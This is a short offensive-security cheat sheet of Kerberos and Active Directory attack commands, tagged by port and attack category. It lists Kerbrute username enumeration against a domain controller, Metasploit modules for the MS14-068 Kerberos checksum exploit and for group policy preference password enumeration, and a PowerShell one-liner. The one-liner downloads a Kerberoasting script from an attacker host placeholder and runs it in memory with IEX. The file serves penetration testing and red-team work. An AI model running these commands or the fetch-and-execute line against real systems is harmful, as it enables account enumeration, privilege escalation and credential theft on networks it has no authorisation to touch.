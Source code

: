 # kerberos

% kerberos

#port/88 #protocol/kerberos

## Kerbrute usersenum
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
./kerbrute_linux_amd64 userenum -d <domain_fqdn> --dc <ip> <users_file>
```



## kerberos ms14-068
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/EXPLOIT 
```
msfconsole -x "use auxiliary/admin/kerberos/ms14_068_kerberos_checksum"
```

## exploit gpp - group policy preference (ms14-025)
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## powershell - get user SPN
#plateform/windows #target/remote #port/88 #protocol/kerberos #cat/RECON 

https://github.com/nidem/kerberoast
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/GetUserSPNs.ps1') | IEX
```